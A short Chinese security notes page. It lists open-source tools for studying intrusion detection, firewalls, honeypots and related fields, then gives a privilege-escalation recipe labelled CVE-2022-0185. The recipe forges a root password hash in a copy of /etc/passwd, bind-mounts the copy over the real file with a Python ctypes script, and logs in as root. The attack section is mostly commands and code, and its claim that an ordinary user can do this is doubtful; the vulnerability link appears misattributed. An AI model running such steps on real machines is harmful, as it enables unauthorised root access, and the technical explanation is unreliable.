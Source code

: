 ```yaml
---
title: "信息安全"
linkTitle: "信息安全"
date: "2023-06-05T15:35"
weight: 1
---
```


# 概述

> 参考：

# 待总结

要研究态势感知或安全运营中心，可以采用OSSIM

要研究入侵防御技术，可以采用Snort或Security Onion

要研究防火墙技术，可以采用pfSense或OPNsense

要研究Web应用防火墙（WAF ），可以采用ModSecurity

要研究威胁情报技术，可以采用MISP或OpenCTI

要研究漏洞扫描技术，可以采用OpenVAS或W3AF

要研究堡垒机技术，可以采用JumpServer

要研究蜜罐技术，可以采用T-Pot或Hfish

# 历史漏洞

## CVE-2022-0185

[https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-0185](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-0185) 漏洞，通过如下操作，可以让普通用户直接重置 root 密码。主要利用的是 bind mount 功能，将 /etc/passwd 文件覆盖

```bash
$ cd ~
$ cp /etc/passwd ./
$ openssl passwd -1 -salt abc password
$1$abc$BXBqpb9BZcZhXLgbee.0s/

# 将第一行的 root:x 改为 root:$1$abc$BXBqpb9BZcZhXLgbee.0s/
$ head -2 passwd
root:$1$abc$BXBqpb9BZcZhXLgbee.0s/:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin


$ cat mount-passwd.py
from ctypes import *
libc = CDLL("libc.so.6")
libc.mount.argtypes = (c_char_p, c_char_p, c_char_p, c_ulong, c_char_p)
MS_BIND = 4096
source = b"<HOME>/passwd"
target = b"/etc/passwd"
filesystemtype = b"none"
options = b"rw"
mountflags = MS_BIND
libc.mount(source, target, filesystemtype, mountflags, options)

把上面的 <HOME> 换成你的 home 目录

$ python3 mount-passwd.py

$ su root 
输入密码：password
```